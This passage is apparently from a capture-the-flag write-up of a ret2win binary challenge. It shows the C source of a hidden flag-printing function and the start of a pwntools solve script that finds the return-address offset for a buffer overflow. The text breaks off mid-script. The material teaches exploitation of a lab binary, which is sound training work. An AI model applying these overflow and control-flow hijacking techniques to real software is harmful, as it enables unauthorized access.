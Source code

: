 Spot the buffer overflow? Yes, but no flag. Check out this other `cheat_mode` function though.

{% code overflow="wrap" %}
```c
void cheat_mode(long key1, long key2)
{
    if (key1 == 0x2323232323232323 && key2 == 0x4242424242424242)
    {
        printf("CHEAT MODE ACTIVATED!\n");
        printf("You now have access to secret developer tools...\n\n");

        FILE *file = fopen("flag.txt", "r");
        if (file == NULL)
        {
            printf("Error: Could not open flag.txt\n");
            return;
        }
        char flag[64];
        if (fgets(flag, sizeof(flag), file) != NULL)
        {
            printf("FLAG: %s\n", flag);
        }
        fclose(file);
    }
    else
    {
        printf("Unauthorized access detected! Returning to main menu...\n\n");
    }
}
```
{% endcode %}

There are no execution paths to this function, so we need to exploit the buffer overflow to redirect the program execution. However, we also need to ensure the correct `key1` and `key2` are provided. Essentially, we have a `ret2win` challenge with parameters. Here's a solve script I put together.

### solve.py

{% code overflow="wrap" %}
```python
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

def find_ip(payload):
    # Launch process and navigate to the cheat code entry
    p = process(exe)
    p.sendlineafter(b'Select an option:', b'1337')
    p.sendlineafter(b'cheatcode:', payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    info('Located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
```